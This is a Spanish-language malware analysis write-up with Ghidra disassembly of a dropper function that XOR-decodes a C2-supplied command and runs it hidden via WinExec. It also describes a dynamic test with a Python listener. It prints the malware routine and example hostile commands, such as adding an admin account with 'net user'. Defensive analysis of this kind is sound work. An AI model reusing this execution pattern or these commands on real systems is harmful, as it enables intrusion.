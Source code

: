 # FUN_00402050 - Opcode 3

La función FUN_00402050 es el funcionamiento típico de un dropper / downloader:
- Decodifica un buffer de 256 bytes (0x100) usando XOR 0x55.
- Intenta ejecutar ese buffer como comando con WinExec().
- WinExec es una API antigua de Windows que ejecuta comandos o aplicaciones con nombre, sin redirección de consola.
- Reporta el resultado al servidor C2, dependiendo de si la ejecución fue exitosa o no.

## Análisis paso a paso:

### 1. Inicialización:
- `MOV ECX, dword ptr [ESP + param_2]`: Carga en el registro ECX la dirección de memoria de una cadena de caracteres (el segundo parámetro de la función). Esta cadena está actualmente cifrada.
- `XOR EAX, EAX`: Pone a cero el registro `EAX`, que se usará como contador del bucle.

### 2. Bucle de decodificación (LAB_00402056):
- El bucle se ejecuta 256 veces (desde `EAX=0` hasta `EAX=0xFF`, ya que `CMP EAX`, `0x100 y JL` significa "saltar si es menor").
- `MOV DL, byte ptr [EAX + ECX*0x1]`: Coge un byte de la cadena cifrada.
- `XOR DL, 0x55`: Esta es la clave. Realiza una operación XOR entre el byte del malware y la clave estática 0x55. Esta es una técnica de cifrado simétrico muy simple y común.
- `MOV byte ptr [EAX + ECX*0x1]`, DL: Sobrescribe el byte cifrado original con el nuevo byte decodificado.
- `INC EAX`: Incrementa el contador para pasar al siguiente byte.

### 3. Ejecución del comando:
- `PUSH 0x0 y PUSH ECX`: Prepara los argumentos para la función `WinExec`. `ECX` ahora apunta a la cadena recién decodificada y `0x0 (SW_HIDE)` le dice a Windows que ejecute el comando en una ventana oculta.
- `CALL dword ptr [->KERNEL32.DLL::WinExec]`: Llama a la función `WinExec` de la API de Windows, que ejecuta la cadena decodificada. Esta cadena podría ser cualquier cosa, como `"calc.exe", "cmd.exe /c net user admin pass /add"` o una ruta a otro malware.

### 4. Comprobación y acción secundaria:
- `CMP EAX, 0x1f`: Comprueba el valor de retorno de `WinExec`. Un valor mayor que `31 (0x1f) significa que la ejecución fue exitosa.
- Si la ejecución no fue exitosa (JLE salta si es menor o igual), el código llama a una función de la librería de sockets de Windows (`WS2_32.DLL`). Esto sugiere que si no puede ejecutar el comando local, podría intentar realizar una acción de red, como conectarse a un servidor de Comando y Control (C2) para reportar el error o descargar otra carga útil.


## Resumiendo
El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).


![opcode-3](../analisis-dinamico/capturas/opcode-3.png)


![opcode-3-2](../analisis-dinamico/capturas/opcode3-2.png)


# Análisis dinámico de Opcode 3

## Listener en python para poder probar este opcode
[listener-opcode3.py](../analisis-dinamico/listener-opcode-3.py)

Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode3.py
```

![opcode-3](../analisis-dinamico/capturas/opcode-3.png)


![opcode-3-2](../analisis-dinamico/capturas/opcode3-2.png)

El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Sí ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).

Terminar su ejecución y regresa al switch para pedir optro opcode al host C2.

```
        00402043 90 90 90        align      align(13)
                 90 90 90 
                 90 90 90 
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00402050(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00402050(R)  
                             FUN_00402050                                    XREF[1]:     FUN_004012f0:00401740(c)  
        00402050 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        00402054 33 c0           XOR        EAX,EAX
                             LAB_00402056                                    XREF[1]:     00402065(j)  
        00402056 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        00402059 80 f2 55        XOR        DL,0x55
        0040205c 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        0040205f 40              INC        EAX
        00402060 3d 00 01        CMP        EAX,0x100
                 00 00
        00402065 7c ef           JL         LAB_00402056
        00402067 6a 00           PUSH       0x0
        00402069 51              PUSH       ECX
        0040206a ff 15 30        CALL       dword ptr [->KERNEL32.DLL::WinExec]              = 0000990a
                 90 40 00
        00402070 83 f8 1f        CMP        EAX,0x1f
        00402073 6a 00           PUSH       0x0
        00402075 6a 02           PUSH       0x2
        00402077 7e 11           JLE        LAB_0040208a
        00402079 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        0040207d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402082 50              PUSH       EAX
        00402083 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402089 c3              RET
```

